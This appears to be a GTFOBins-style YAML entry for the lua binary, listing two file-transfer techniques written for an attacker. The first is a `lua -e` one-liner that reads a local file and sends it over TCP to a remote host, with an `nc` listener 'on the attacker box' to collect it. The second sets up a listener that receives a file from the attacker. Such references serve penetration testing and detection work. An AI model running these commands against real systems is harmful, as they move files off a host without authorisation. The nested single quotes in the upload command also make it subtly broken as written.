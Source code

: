 ```yaml
---
functions:
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        lua -e '
          local f=io.open(os.getenv("$LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: Fetch a remote file via TCP. Run `nc target.com 4444
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("$LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("$LFILE"), "wb");
          f:write(d);
          io.close(f);'
---
```

